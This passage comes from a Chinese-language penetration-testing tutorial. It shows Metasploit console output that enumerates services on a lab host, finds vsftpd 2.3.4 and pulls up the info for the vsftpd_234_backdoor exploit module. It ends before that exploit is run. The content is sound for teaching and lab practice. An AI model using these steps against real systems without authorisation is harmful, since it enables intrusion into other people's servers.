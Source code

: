 ```
msf > services -u
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
172.16.56.130  21    tcp    ftp          open   vsftpd 2.3.4
172.16.56.130  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
172.16.56.130  25    tcp    smtp         open   Postfix smtpd
172.16.56.130  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
172.16.56.130  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
```

还可以列举主机。当然，此时只有一台target：

```
msf > hosts

Hosts
=====

address        mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------        ---  ----  -------  ---------  -----  -------  ----  --------
172.16.56.130             Linux                      server
```

### 威胁建模

从已知信息中找出弱点。比如我们发现目标有vsftpd服务，那么可以

```
search vsftpd
```

发现

```
Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

注意，恰好版本号相符。这时候我们要进一步了解这个漏洞。

### VSFTPD v2.3.4后门

我们在msf里就可以获得一些漏洞信息：

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>
```
